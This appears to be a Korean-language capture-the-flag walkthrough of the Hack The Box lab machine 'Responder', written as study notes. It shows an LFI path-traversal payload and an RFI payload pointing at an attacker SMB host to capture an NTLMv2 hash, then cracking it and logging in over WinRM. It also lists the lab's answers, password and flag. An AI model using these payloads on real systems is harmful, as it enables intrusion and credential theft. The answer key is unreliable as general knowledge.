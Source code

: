 # Responder

## Workstation
- Virtual Box : VMware Workstation 16 Pro
- OS : kali-linux-2022.3

## Walkthrough
* CONNECT | Connect to Starting Point VPN before starting the machine

```
sudo openvpn starting_Point_<ID>.ovpn
```

* Spawn Machine | Click to Spawn the machine

![machine]()

* Task 1 | When visiting the web service using the IP address, what is the domain that we are being redirected to?

> unika.htb

nmap으로 포트 검색을 한다.

![nmap]()

80번 포트가 열려있으니 IP 주소를 브라우저에 검색하면 도메인 네임이 나온다.

![ip]()

해당 IP 주소를 사용하기 위해 hosts 파일에 입력한다.

![hosts]()

* Task 2 | Which scripting language is being used on the server to generate webpages?

> php

스크립트 언어를 알기 위해 이것저것 눌러보던 중 프랑스어로 바꿔보니 index.php 파일을 사용하고 있었다.

![fr]()

* Task 3 | What is the name of the URL parameter which is used to load different language versions of the webpage?

> page

index.php 뒤에 `?` 파라미터 값에 page가 있다.

* Task 4 | Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

> ../../../../../../../../windows/system32/drivers/etc/hosts 

LFI란 Local File Inclusion으로 해석하면 로컬 파일 포함이란 취약점이다. 웹 서버의 파일을 노출하거나 실행할 수 있는 공격이다.

우리는 LFI 취약점으로 웹 서버의 파일을 읽어낼 것이다.

![lfi]()

* Task 5 | Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

> //10.10.14.6/somefile 

RFI란 Remote File Inclusion으로 해석하면 원격 파일 포함으로 웹 응용 프로그램이 원격 파일을 실행할 수 있으며 웹쉡도 가져올 수 있다.

![rfi]()

* Task 6 | What does NTLM stand for?

> New Technology Lan Manager 

* Task 7 | Which flag do we use in the Responder utility to specify the network interface?

> -I 

Responder의 사용법을 확인하면 된다.

![responder]()

네트워크 인터페이스의 옵션을 알았으니 `-I` 옵션과 `tun0`을 입력한다.

중간에 event 요청을 하는데 이때 Task 5의 RFI 를 이용하면 된다.

브라우저 파라미터 값에 `//<IP>/somefile`를 입력하면 된다.

![rfiip]()

그러면 smb 부분에 관리자의 해시값이 나왔다.

![smb]()

* Task 8 | There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

> john the ripper 

위에서 얻은 해시값을 크랙하기 위해 john the ripper 모듈을 사용한다. 해시값을 hash.txt 파일에 입력하여 크랙한다.

![john]()

* Task 9 | What is the password for the administrator user?

> badminton

* Task 10 | We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

> 5985

* Submit Flag | Submit root flag 

> ea81b7afddd03efaa0945333ed147fac

위에서 Administrator의 패스워드 badminton을 얻었다.

위 계정을 이용해 window 계정에 접속하기 위해 윈도우 원격에서 접근하고 제어할 수 있는 win-rm 모듈을 사용한다.

![winrm]()

성공적으로 윈도우 시스템에 접속되었다.

이제 flag를 찾으면 된다.

![flag]()